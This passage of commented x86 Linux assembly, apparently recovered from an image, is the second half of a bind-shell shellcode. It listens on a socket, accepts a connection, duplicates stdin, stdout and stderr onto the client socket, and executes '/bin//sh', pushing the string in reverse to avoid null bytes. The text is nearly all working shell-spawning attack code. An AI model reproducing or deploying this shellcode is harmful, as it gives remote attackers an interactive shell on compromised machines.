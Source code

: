 ```s

    ; =============================================
    ; Step 3: Listen for connections (socketcall 4)
    ; =============================================
    mov al, 0x66        ; socketcall
    mov bl, 0x4         ; SYS_LISTEN = 4
    
    push edx            ; backlog = 0
    push esi            ; sockfd
    
    mov ecx, esp        ; ECX points to listen arguments
    int 0x80

    ; =============================================
    ; Step 4: Accept connection (socketcall 5)
    ; =============================================
    mov al, 0x66        ; socketcall
    mov bl, 0x5         ; SYS_ACCEPT = 5
    
    push edx            ; addrlen = NULL (0)
    push edx            ; addr = NULL (0) 
    push esi            ; sockfd
    
    mov ecx, esp        ; ECX points to accept arguments
    int 0x80
    
    ; Save client file descriptor
    mov ebx, eax        ; EBX = clientfd

    ; =============================================
    ; Step 5: Duplicate file descriptors
    ; =============================================
    xor ecx, ecx        ; Start with STDIN (0)
    
dup_loop:
    mov al, 0x3f        ; dup2 syscall = 63
    int 0x80
    inc ecx             ; Next file descriptor
    cmp ecx, 0x3        ; Done with 0, 1, 2?
    jne dup_loop

    ; =============================================
    ; Step 6: Execute shell
    ; =============================================
    xor eax, eax        ; Clear EAX
    push eax            ; Push NULL terminator
    
    ; Push "/bin//sh" in reverse
    push 0x68732f2f     ; "hs//"
    push 0x6e69622f     ; "nib/"
    
    mov ebx, esp        ; EBX points to "/bin//sh"
    
    push eax            ; envp[1] = NULL
    mov edx, esp        ; EDX points to envp
    
    push ebx            ; argv[0] = "/bin//sh"
    mov ecx, esp        ; ECX points to argv
    
    mov al, 0xb         ; execve syscall = 11
    int 0x80
```
